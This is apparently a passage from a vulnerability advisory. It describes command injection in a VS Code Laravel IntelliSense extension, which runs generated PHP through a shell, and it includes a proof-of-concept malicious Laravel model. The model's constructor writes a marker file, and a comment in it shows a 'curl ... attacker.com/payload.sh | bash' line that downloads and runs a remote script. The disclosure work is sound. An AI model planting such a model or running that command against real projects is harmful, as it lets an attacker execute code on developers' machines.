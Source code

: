 2. This generated code is then executed using the `runPhp()` method:
```typescript
static async runPhp(code: string, description: string|null = null) : Promise<string> {
    code = code.replace(/\"/g, "\\\"");
    // Additional string escaping...
    let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
    let command = commandTemplate.replace("{code}", code);
    // Execute the command using child_process.exec
    cp.exec(command, ...);
}
```

3. This PHP execution happens across multiple providers that extract information from Laravel:
   - `RouteProvider.loadRoutes()`
   - `ViewProvider.loadViews()`
   - `ConfigProvider.loadConfigs()`
   - `EloquentProvider.loadModels()`
   - And others...

The attack vector becomes clear: if a malicious Laravel project contains code in its models, views, routes, etc. that can escape the PHP script context or inject malicious code into the generated PHP command, it could execute arbitrary commands with the privileges of the configured PHP command.

### Security Test Case

1. Create a malicious Laravel project with a modified model file in `app/Models/MaliciousModel.php`:
```php
<?php
namespace App\Models;

use Illuminate\Database\Eloquent\Model;

class MaliciousModel extends Model
{
    public function __construct()
    {
        parent::__construct();

        // Create a malicious file for proof of concept
        file_put_contents(
            '/tmp/vscode_laravel_extra_intellisense_exploit.txt',
            'Exploitation successful at ' . date('Y-m-d H:i:s')
        );

        // For more severe exploitation, could include shell commands:
        // system('curl -s http://attacker.com/payload.sh | bash');
    }
}
```

2. Set up the Laravel project with all necessary files (composer.json, .env, etc).
